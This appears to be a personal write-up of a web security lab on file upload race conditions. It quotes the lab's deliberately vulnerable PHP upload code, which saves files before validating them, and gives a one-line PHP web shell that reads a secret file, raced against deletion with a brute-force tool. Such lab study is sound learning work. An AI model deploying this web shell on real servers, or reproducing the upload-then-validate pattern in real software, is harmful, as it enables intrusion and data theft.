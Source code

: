 ## Exploiting file upload race conditions

Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.

That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.

For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.

These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code.

## Challenge

> This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.
> To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
> You can log in to your own account using the following credentials: `wiener:peter`

--> In this lab the backend code is looks like this :

```php
`<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

--> This website is checking the file for viruses after upload so if we upload the file continuesly and then keep refresh the page then we can see the content of the file and it's called `race condition`

--> So i made one basic payload and injected it :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> after that i forwarded that request to intruder and then brute forced the `user-agent`

![](Attachments/Pastedimage20220125142120.png)

--> I brute forced using the number

![](Attachments/Pastedimage20220125133903.png)

--> Durint the brute force we can goto `/files/avatars/webshell.php` and refresh the page and get the flag!

![](Attachments/Pastedimage20220125134232.png)

--> And i we solved the lab!

![](Attachments/Pastedimage20220125134214.png)
